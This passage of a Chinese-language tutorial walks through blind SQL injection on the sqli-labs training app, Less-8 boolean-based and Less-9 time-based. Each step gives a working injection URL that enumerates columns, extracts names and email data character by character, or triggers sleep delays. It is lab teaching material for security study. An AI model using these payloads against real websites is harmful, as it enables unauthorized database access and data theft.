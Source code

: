 ![5c80501ca97a70e575232460152d395](https://gitee.com/zh0y0/picture/raw/master/zh0y0/5c80501ca97a70e575232460152d395.png)

###### 6.猜测字段长度

```
http://192.168.191.138/sqli-labs-master/less-8/?id=0' or (select count(column_name) from information_schema.columns where table_schema=database() and table_name='emails')=2--+
```

![47ae0440e5416be214029ea0b221806](https://gitee.com/zh0y0/picture/raw/master/zh0y0/47ae0440e5416be214029ea0b221806.png)

###### 7.查第一个字段全名

通过上一步逐步猜解security数据库中第一个表的全名，最终得到第一个表的表名为emails。然后要猜测emails这个表中的第一个字段的第一个字符，逐步猜测最终得到第一个字段的名字为id。不断改变ASCII的比较值来确定字段名中的字符。

```
http://192.168.191.138/sqli-labs-master/less-8/?id=0' or ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),1,1))>104--+
```

![e56d620951ffd9360942f46ad62f125](https://gitee.com/zh0y0/picture/raw/master/zh0y0/e56d620951ffd9360942f46ad62f125.png)

###### 8.猜测表中字段具体内容的条数

在上面步骤中已经知道了数据库名和表名，所以在下面命令中可以直接写出

```
http://192.168.191.138/sqli-labs-master/less-8/?id=0' or 8=(select count(id) from security.emails)--+
```

![65b11129c08162dfcf7fb354fb0eb78](https://gitee.com/zh0y0/picture/raw/master/zh0y0/65b11129c08162dfcf7fb354fb0eb78.png)

###### 9.查询字段的第一条具体内容

```
http://192.168.191.138/sqli-labs-master/less-8/?id=0' or ascii(substr((select email_id from security.emails limit 0,1),1,1))=68--+
```

![677df7abc8b4220d9bbee4bbb9bc6f7](https://gitee.com/zh0y0/picture/raw/master/zh0y0/677df7abc8b4220d9bbee4bbb9bc6f7.png)

##### 3.sql-labs less-9  时间盲注

###### 1.判断是否为时间盲注

```
?id=1' and sleep(5) --+
```

###### 2.插入if条件语句看是否执行了时间延迟，获取数据库长度

```
?id=1' and if(length(database())=8,sleep(5),0)--+
```

后面步骤类似于布尔盲注
